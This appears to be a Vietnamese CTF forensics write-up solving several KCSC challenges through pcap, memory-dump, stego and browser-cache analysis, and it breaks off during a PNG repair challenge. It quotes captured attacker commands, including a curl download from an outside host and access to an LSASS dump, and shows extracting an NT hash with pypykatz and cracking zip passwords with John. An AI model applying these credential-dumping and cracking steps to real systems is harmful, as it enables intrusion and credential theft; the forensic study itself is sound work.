## Observation - Super weak c2 communication
### Description
- 
### Solution 
- Bài này cho chúng ta 1 file pcap. Mở file này với WireShark để tiến hành phân tích.
- 
- Nhìn vào đây ta thấy hầu hết giao thức được sử dụng là giao thức TCP 
- Ta sẽ lọc các góc TCP ra để phân tích trước, theo dõi theo các luồng 
- 
- Nếu tinh ý ta có thể thấy đây là chuỗi `Administrator` và `1.whoami` bị lật ngược.
- Tương tự với stream 1
```
1. dir
evil.py  Important.txt	lsass.DMP
```
- Và ở stream 2 ta có flag
```
1.cat Important.txt

KCSC{s1mplY_Str1ng_R3v3rseD}
```

## Observation - Credentials
### Description 
- 
### Solution 
- Tiếp tục phân tích từ những stream TCP ở trước, ta lấy khi người dùng dùng lệnh dir có 1 file lsass.DMP. Cho ai chưa biết thì 
```tệp lsass.DMP là một bản ghi (dump file) của tiến trình LSASS (Local Security Authority Subsystem Service) trên hệ thống Windows. Tệp này chứa thông tin về các phiên làm việc, mã hóa và xác thực bảo mật của hệ thống, trong đó bao gồm cả thông tin nhạy cảm như hash mật khẩu, vé Kerberos, và các dữ liệu xác thực khác. ```
- Biết là như thế nhưng ta vẫn phải kiểm tra các luồng cho chắc 

- Luồng 3
```
1.echo "Hacked"
Hacked
```
- Luồng 4 
```
1.curl http://192.168.222.164:1337/key.txt -o key.txt
```
- Luồng 5: chứa dữ liệu của file lsass.DMP.
- Luồng 6: chứa dữ liệu file key.txt : zlMg5K3TobbFh_8l7doDT_408rH7Md_W3Oc1yKX1FrA=
- Luồng 7: 
`gAAAAABm3fyvSYv0L5_jUhYRbZIoEqu4wTUG7MowDa8fWuDjSNuactBTilQyF0X1IBYT21wBcdT1CbhpPt_R3PhZDDJzymJDfQ==
gAAAAABm3fyv6sf_nGEuWEQIJXKw0zaglNW2Q-XS0tWeAwwFNbcxVnsXXPFvo7RkEMMfJ5nkx0PpioYafdDZ3HM6oCYdHeXczw==` 
- Luồng 8: `gAAAAABm3fyz0IVjfY6h-fa2mKJptEVs7I2SjEZ8cFQSArPTiKAyAZ3_AvCEBw8HzmLBCFt6IMG9MYiqaUu2-KmUj9ld5IdZtX-lD8pIyIw76iYvA0Nr0AcwSVgZg_MX-bAaOfg9-V8D
gAAAAABm3fyzXrPS6uqlPN43UafqZXDDPJgWp5E_aEaduGuo5l1icUS0elmIc0YocpZ2J-QtWKZqC4K8bFTRiyoV4d4Fy1ZZY7EZcGJ9U5CB28wxkP9PCf258M781_5613ztO-DITpGc`
- Dữ liệu này mình chưa xác định được, có thể nó là 1 loại mã hoá gì đó .
- Tổng quan: Kẻ tấn công đã lợi dụng tệp dữ liệu chưuas thông tin xác thực lsass.DMP để đánh căos dữ liệu xác thực 
- Ta sẽ sử dụng PyPyKatz để dump mật khẩu xác thực ra
> pypykatz lsa minidump lsass.DMP
```
        == MSV ==
                Username: Nex0
                Domain: DESKTOP-3VTC3DJ
                LM: NA
                NT: b454f6b76845c841d6c703a6cafd3def
                SHA1: 2d0381759171f397255a3679985fc2d2361f1e1d
                DPAPI: NA

```
- Tuy nhiên mật khẩu đã bị mã hoá ta sử dụng công cụ tại https://crackstation.net/ để crack
- 

> Flag : KCSC{FrostBite}

## Observation - No more weakness
### Desciption 
- 
### Solution 
- Nhìn vào description ta thấy rằng nó đề cập đến luồng dữ liệu thứ 7 và 8. Có vẻ đây là 1 loại mã hoá gì đấy.
- Sau 1 hồi tra google có thể nó liên quan đến thư viện fernet của python - https://www.geeksforgeeks.org/fernet-symmetric-encryption-using-cryptography-module-in-python/
- Dựa vào đây ta viết script giải mã 
```
from cryptography.fernet import Fernet
key = b'zlMg5K3TobbFh_8l7doDT_408rH7Md_W3Oc1yKX1FrA='
fernet = Fernet(key)

encrypted_message = b'gAAAAABm3fyzXrPS6uqlPN43UafqZXDDPJgWp5E_aEaduGuo5l1icUS0elmIc0YocpZ2J-QtWKZqC4K8bFTRiyoV4d4Fy1ZZY7EZcGJ9U5CB28wxkP9PCf258M781_5613ztO-DITpGc'

decrypted_message = fernet.decrypt(encrypted_message)

print(decrypted_message.decode('utf-8'))
```
> Flag : KCSC{Y0u_Kn0w_F__E__R__N__E__T!!}

## Showdown
### Desciption
- 
### Solution
- Bài này đề cho ta 1 file png và bắt ta stego xem nó có gì 
- 
- Với mấy bài stego như này mình bắt đầu bằng việc up lên `https://www.aperisolve.com/` thì có flag 🤡
- 
- 
> Flag : KCSC{Th3_uNse3n_bL@de_1s_the_D34dL1357}

## Ping Flood
### Description 
- 
### Solution 
- Mở file này với Wireshark, ta có thể thấy dấu hiệu của cuộc tấn côgn DDoS ngay lập tức (rất nhiều gói tin ICMP được gửi đến)
- Unpack 1 gói ra xem thử thì ta thấy 
```
Internet Control Message Protocol
    Type: 8 (Echo (ping) request)
    Code: 53
    Checksum: 0xf7ca [correct]
    [Checksum Status: Good]
    Identifier (BE): 0 (0x0000)
    Identifier (LE): 0 (0x0000)
    Sequence Number (BE): 0 (0x0000)
    Sequence Number (LE): 0 (0x0000)
    [Response frame: 58]
```
- Tại mỗi gói ta thấy có 1  `Code` được gửi đến và trả response về.
- Mình sẽ viết lệnh để lọc đống dữ liệu này ra, sau đó ném lên CyberChef để giải mã.
> tshark -r traffic.pcapng -Y "icmp.type == 8" -Tfields -e "icmp.code" > data.txt
- 
> Flag :  KCSC{~(^._.)=^._.^=(._.^)~}
### Tham khảo 
- https://stackoverflow.com/questions/42546097/transfer-file-over-icmp

## Aidoru
### Description 
-
### Solution 
- Nhìn vào đề mình xác định ngay phải check lịch sử trình duyệt trước
- Lịch sử trình duyệt được lưu tại `Users\admin\AppData\Local\Microsoft\Edge\User Data\Default`
- 
- Thấy rằng có 1 file tên là Onlyfans_leak.zip được tải về nhưng đã bị xoá. Khi tải file xuống, file sẽ được lưu  tạm thời tại cache. 
- File cache lại được lưu tại `Users\admin\AppData\Local\Microsoft\Edge\User Data\Default\Cache`, công thêm việc ta biết rằng file zip có dung lượng tầm 7940690 byte (theo như đã thấy trên file History) nên ta dễ dàng xác định được file

```
find Cache -type f -exec sh -c 'for file; do if [ "$(xxd -p -l 2 "$file" | tr -d "\n")" = "504b" ] && [ "$(stat -c%s "$file")" -eq 7940690 ]; then echo "$file"; fi; done' sh {} +
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ find Cache -type f -exec sh -c 'for file; do if [ "$(xxd -p -l 2 "$file" | tr -d "\n")" = "504b" ] && [ "$(stat -c%s "$file")" -eq 7940690 ]; then echo "$file"; fi; done' sh {} +

Cache/Cache_Data/f_000069
```
- 
- File đã bị khoá, dùng john để crack
```
┌──(kali㉿kali)-[~/Downloads]
└─$ zip2john f_000069 > hash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash   
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Cost 1 (HMAC size) is 7940474 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
benjamin         (f_000069/confidential.png)     
1g 0:00:00:00 DONE (2024-09-18 04:02) 3.225g/s 13212p/s 13212c/s 13212C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
Mở ra với mật khẩu benjamin ta có flag 
- 
> Flag : KCSC{n0w_y0u_f0und_my_s3np41_:3}

## NiceJob from niceComp
### Description 
- 
### Solution
- Đối với những bài có 2 file (1 file mem, 1 file pcap) như thế này, thông thường mình sẽ kiểm tra file mem trước vì mình thấy nó là cách tối ưu nhất.
- Mình chọn volatility2 để tiến hành phân tích. Tuy nhiên đây là file memory dump từ máy linux nên ta không có profile sẵn, vì vậy ta phải build bằng tay.
- Sử dụng plugin banner để xác định OS và phiên bản kernel 
```
0x170001a0      Linux version 5.4.0-150-generic (buildd@bos03-amd64-012) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #167~18.04.1-Ubuntu SMP Wed May 24 00:51:42 UTC 2023 (Ubuntu 5.4.0-150.167~18.04.1-generic 5.4.233)
```
- Khúc build profile này mình sẽ không đề cập kĩ (mọi người nên tra google cho nhanh)
- Sau khi build xong ta được 1 file zip (đây là profile ta cần), đưa nó vào `volatility/volatility/plugins/overlays/linux/` để chạy
- Như thường lệ, sử dụng plugin linux_bash để xem lịch sử command. Tuy nhiên nó đã bị xoá
```
┌──(kali㉿kali)-[~/volatility]
└─$ python2 vol.py -f /media/kali/3c227256-1e28-4ef7-a0bf-2efa1e7962d7/memory.dmp --profile=LinuxUbuntu5_4_0-150_167x64 linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1913 bash                 2024-09-09 10:26:02 UTC+0000   ATUH?????S??H??dH?%(
    1913 bash                 2024-09-09 10:26:02 UTC+0000   rm -rf .bash_history
    1913 bash                 2024-09-09 10:26:04 UTC+0000   ip a
    1913 bash                 2024-09-09 10:27:46 UTC+0000   sudo ./avml memory.dmp
    2054 bash                 2024-09-09 10:27:06 UTC+0000   cd ..
    2054 bash                 2024-09-09 10:27:14 UTC+0000   rm -rf .bash_history 
    2054 bash                 2024-09-09 10:27:14 UTC+0000   @
                                                                                                    
```
- Kiểm tra tiếp plugin linux_pslist thì thấy có 1 process sshd đang chạy
- 
- Quay qua file pcap cũng có giao thức ssh đang chạy, nhưng dữ liệu đã bị encrypt.
- 
- Theo góc nhìn của mình, có thể attacker truy cập từ xa vào hệ thống, sau đó xoá file.
- Ta sẽ tiến hành giải mã xem lưu lượng ssh này có gì.
- Để giải mã được ta cần phải có key mã hoá ssh, điều này ta có thể dùng file memory dump để trích xuất nó ra.
- Mình sẽ sử dụng plugin [openssh_sessionkeys.py](https://github.com/fox-it/OpenSSH-Session-Key-Recovery/blob/main/volatility2/openssh_sessionkeys.py) để trích xuất các khoá đó ra.
- Tới chỗ này mình bị struct vì khi chạy nó chạy rất lâu nên mình có in bốc cho author hỏi thì được hint rằng phải thêm `-n sshd` vào, mục đích để nó tập trung vào các tiến trình ssh
```
┌──(kali㉿kali)-[~/volatility]
└─$ python2 vol.py -f /media/kali/3c227256-1e28-4ef7-a0bf-2efa1e7962d7/memory.dmp --profile=LinuxUbuntu5_4_0-150_167x64 linux_sshkeys -n sshd
Volatility Foundation Volatility Framework 2.6.1

/\____/\
\   (_)/        OpenSSH Session Key Dumper
 \    X         By Jelle Vergeer
  \  / \
   \/
Scanning for OpenSSH sshenc structures...

Name                           Pid      PPid     Address            Name                           Key                                                                                                                              IV                                                              
------------------------------ -------- -------- ------------------ ------------------------------ -------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------
sshd [sshd: lucius@pts/1  ]        2046     1952 0x0000560c469b6040 aes256-gcm@openssh.com         21e1f590925a517cbebda1b0bb7135b6e12ecdf116cde46533d40cb4d5661930                                                                 4807fb2cd72cad60e62e0c12                                        
sshd [sshd: lucius@pts/1  ]        2046     1952 0x0000560c469b9d60 aes256-gcm@openssh.com         1160dc100aed1ffafbe1975008206a20fbbf0d4867391bf8cd4f322d2aee5edc                                                                 449ad51cc044e41cf114249b                                        
```
- Đã có key và iv, ta tiến hành tạo 1 tệp json chứa nó 
```
{"task_name": "sshd", "sshenc_addr": 94108858764096, "cipher_name": "aes256-gcm@openssh.com", "key": "21e1f590925a517cbebda1b0bb7135b6e12ecdf116cde46533d40cb4d5661930", "iv": "4807fb2cd72cad60e62e0c12"}
{"task_name": "sshd", "sshenc_addr": 94108858764480, "cipher_name": "aes256-gcm@openssh.com", "key": "1160dc100aed1ffafbe1975008206a20fbbf0d4867391bf8cd4f322d2aee5edc", "iv": "449ad51cc044e41cf114249b"}
```
- Ta tiến hành decrypt bằng công cụ [OpenSSH-Network-Parser](https://github.com/fox-it/OpenSSH-Network-Parser)
- Tuy nhiên công cụ này có rất nhiều vấn đề nên ta phải fix trước, phần này có thể tham khảo [tại đây](https://xz.aliyun.com/t/13991?time__1311=GqmxnD2DyD97eGNDQ0PhhObeAK%2B34rD)

```
┌──(kali㉿kali)-[~/Downloads/OpenSSH-Network-Parser/openssh_network_parser/tools]
└─$ python2 network_parser.py -p traffic.pcapng --popt keyfile=key.json --proto ssh -o  ~/Downloads/
getrlimit: (1024, 1073741816)
/home/kali/.local/lib/python2.7/site-packages/gevent/builtins.py:93: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  result = _import(*args, **kwargs)
```
- Mình chỉ định đầu ra là mục Downloads, nên kiểm tra dữ liệu ở đây
- 
- Có 1 folder được tạo và chứa 1 file txt.
- 
- Ta thấy rằng có 1 file tên là `thong_tin_noi_bo.zip` và 1 loạt kí tự không xác định, đây chính là hex code của file.
- Dùng binwalk để lấy tệp ra
```
┌──(kali㉿kali)-[~/Downloads/10.0.0.1]
└─$ binwalk 2024-09-09--10-26-08.txt 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
4531          0x11B3          Unix path: /home/lucius/Downloads
4571          0x11DB          Unix path: /home/lucius/Downloads
4637          0x121D          Unix path: /home/lucius/Downloads
5301          0x14B5          Unix path: /home/lucius/Downloads/thong_tin_noi_bo.zip
5474          0x1562          Zip archive data, encrypted at least v2.0 to extract, compressed size: 7006, uncompressed size: 8291, name: secret.png
12650         0x316A          End of Zip archive, footer length: 22
12704         0x31A0          Unix path: /home/lucius/Downloads/thong_tin_noi_bo.zip
12831         0x321F          Unix path: /home/lucius/Downloads/thong_tin_noi_bo.zip
13004         0x32CC          Zip archive data, encrypted at least v2.0 to extract, compressed size: 7006, uncompressed size: 8291, name: secret.png
20180         0x4ED4          End of Zip archive, footer length: 22
```
- 
- File lại bị khoá bằng mật khẩu, crack tiếp 
```
┌──(kali㉿kali)-[~/Downloads/10.0.0.1/_2024-09-09--10-26-08.txt.extracted]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Cost 1 (HMAC size) is 6978 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
infected         (32CC.zip/secret.png)     
1g 0:00:00:01 DONE (2024-09-18 09:54) 0.5464g/s 15667p/s 15667c/s 15667C/s 280690..spongebob9
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Bây giờ sử dụng password `infected` để xem file bên trong thì ta có flag 
- 
> Flag : KCSC{w3ll_d0n3_you_go7_my_secr3t_n0w}

### Tham khảo 
- https://kevintk1.medium.com/htb-business-ctf-2021-forensic-compromised-1aa265b843a6
- https://xz.aliyun.com/t/13991?time__1311=GqmxnD2DyD97eGNDQ0PhhObeAK%2B34rD
- https://or1on-ctf.github.io/2021/07/27/HTB-Business-CTF-Compromise.html
- https://www.nccgroup.com/us/research-blog/decrypting-openssh-sessions-for-fun-and-profit/
- https://ctftime.org/writeup/29392

## BabyStego
### Description
- 
### Solution
- Bài này là bài stego tuy nhiên chỉ cho ta 1 file không mở được.
- Check hex code trước 
- 
- Ta thấy có 1 chunk IHDR và chunk IDAT bị hỏng => Xác định được đây là file png 
